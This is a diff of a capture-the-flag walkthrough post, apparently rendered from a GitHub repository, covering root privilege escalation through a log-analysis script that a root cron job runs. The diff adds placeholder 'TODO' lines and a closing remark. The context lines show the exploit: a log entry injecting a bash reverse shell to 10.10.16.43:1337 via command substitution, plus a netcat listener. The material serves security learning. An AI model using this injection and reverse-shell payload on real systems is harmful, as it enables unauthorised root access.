

Before and after one commit to L3B0W5K1/ctf-walkthroughs, a Markdown page: posts/post-0.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/posts/post-0.md
+++ b/posts/post-0.md
@@ -211,7 +211,7 @@ Running pspy tool tool to monitor running processes without the need for root pr
 2025/09/04 21:38:01 CMD: UID=0     PID=1675351 | /bin/bash /opt/log_analyse.sh /var/www/web/cloud-gateway/log/application.log
 ```
 
-
+TODO
 
 ```
 analyze_http_statuses() {
@@ -234,9 +234,12 @@ analyze_http_statuses() {
 }
 ```
 
+TODO
 
 rm -f /var/www/web/user-management-service/log/application.log
 echo 'HTTP Status: x a[$(bash -i >& /dev/tcp/10.10.16.43/1337 0>&1)]' > /var/www/web/user-management-service/log/application.log
 
 
 nc -l 1337
+
+And we get root!
````
